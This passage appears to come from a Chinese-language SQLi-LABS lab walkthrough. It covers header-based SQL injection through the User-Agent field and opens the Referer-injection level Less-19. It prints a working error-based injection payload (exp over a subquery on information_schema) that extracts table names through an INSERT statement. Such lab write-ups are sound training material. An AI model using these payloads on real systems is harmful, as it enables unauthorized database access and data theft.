 + 在user-agent单引号以后出现错误。我们可以推断这是保存用户登录的SQL语句。

```sql
insert into table (..., `user-agent`, `ip`, `username`) values (..., 'user-agent', 'ip', 'username');
```

+ 因为这里是使用插入语句我们应该使用报错注入。

```sql
bbb','123131',exp(~(select * from (select group_concat(table_name) from information_schema.tables where table_schema=database())a)))-- '
```

![image-20210929101511873](../../images/SQLi-LABS/image-20210929101511873.png)

## Less-19 标头注入Referer基于错误的字符串

+ 根据题目提示，我们可以从Referer进行注入。尝试在Referer值设置为单引号，会出现下列错误。
